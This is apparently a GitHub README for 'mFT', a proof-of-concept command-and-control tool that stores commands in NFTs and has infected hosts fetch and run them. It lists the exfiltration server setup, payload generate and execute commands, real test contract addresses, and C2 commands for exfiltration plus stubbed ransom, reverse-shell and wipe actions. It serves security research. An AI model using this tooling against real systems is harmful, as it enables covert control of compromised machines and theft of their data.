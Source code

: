 # mFT - Malicious Fungible Token

mFT is a Web3 based C2 PoC that leverages Non-Fungible Tokens (NFTs) as a mechanism for hosting and transmitting commands to compromised or infected hosts.

## Requirements

Install dependencies:

```bash
bundle install
```

Configure your OpenSea API Key in the `config.rb` file:

```ruby
$sea_apikey = "YOUR_API_KEY_HERE"
```

## mFT C2 (mFTC2.rb)

The C2 will start a web server which will log any data exfiltrated by mFT clients.

Custom address and port can be configured in the `config.rb` file:

```ruby
#Exfil Server default IP
$ex_default_address = "0.0.0.0"

#Exfil Server default Port
$ex_default_port = 4444
```

## mFT (mFT.rb)

This tool has the capability to both read and execute a malicious payload contained within an NFT. 
It also offers the functionality to provide an execution plan and generate custom payloads for specific purposes. 
Furthermore, if required, the tool can list all NFTs associated with a given address and retrieve detailed information about each one individually.

```ruby
          _____ _____           _ _ _     _   ___    _____ _ _         _   
    _____|   __|_   _|   ___   | | | |___| |_|_  |  |     | |_|___ ___| |_ 
   |     |   __| | |    |___|  | | | | -_| . |_  |  |   --| | | -_|   |  _|
   |_|_|_|__|    |_|           |_____|___|___|___|  |_____|_|_|___|_|_|_|                                                                   
                                      mFT - Client v0.01 - Mauro Eldritch     

Usage: mFT [options]
    -g, --generate                              Generate a malicious payload
    -x ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --execute                               Execute a specific NFT's malicious payload
    -d ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --decode                                Decode a specific NFT's malicious payload
    -l, --list ACCOUNT,BLOCKCHAIN               List account NFTs
    -i ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --info                                  Get details for a specific NFT
```

### C2 Commands List

- `id`: Grabs hostname and IP address.
- `exfil`: Attempts to exfiltrate information via a POST request against the exfiltration server.
- `encrypt`: Dummy command which should encrypt the filesystem, but only creates a fake ransom note on the desktop.
- `shell`: Dummy command which should open a reverse shell **(not implemented)**.
- `wipe`: Dummy command which should wipe the filesystem **(not implemented)**.

### Test Contract & NFT

A test collection was published for users to run local tests. Use the NFT Address `0xd838b011c90643b6623393a94405a5e3c199b1fc` with ID `1` or `2` and `ethereum` blockchain on the examples below. The collection features my golden retriever and partner in crime Leopoldo, better known as "Golden Locker" or "*Treat* Actor" in the underground.

- NFTs: https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/1 & https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/2
- Holder (my test account): `0x942773F094f0C170AB8835e28f9B0b0b223e043A`
- Collection: https://opensea.io/collection/malicious-fungible-tokens 
- Contract: https://etherscan.io/token/0xd838b011c90643b6623393a94405a5e3c199b1fc 

### Examples:

```bash
#Note: Blockchain argument is optional for all cases. Default value: "ethereum".

#Run Exfiltration Server
ruby mFTExfil.rb

#Generate a payload interactively
ruby mFT.rb -g

#List all NFTs from a given address
ruby mFT.rb -l "0x942773F094f0C170AB8835e28f9B0b0b223e043A"

#Decode and explain a payload step by step ("2" can be used as the second parameter)
ruby mFT.rb --decode "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Execute a payload ("2" can be used as the second parameter)
ruby mFT.rb --execute "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Get information for a specific NFT ("2" can be used as the second parameter)
ruby mFT.rb --info "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"
```

## See also

- The Hacker News - EtherHiding: https://thehackernews.com/2023/10/binances-smart-chain-exploited-in-new.html
- Guardio Labs - EtherHiding: https://labs.guard.io/etherhiding-hiding-web2-malicious-code-in-web3-smart-contracts-65ea78efad16
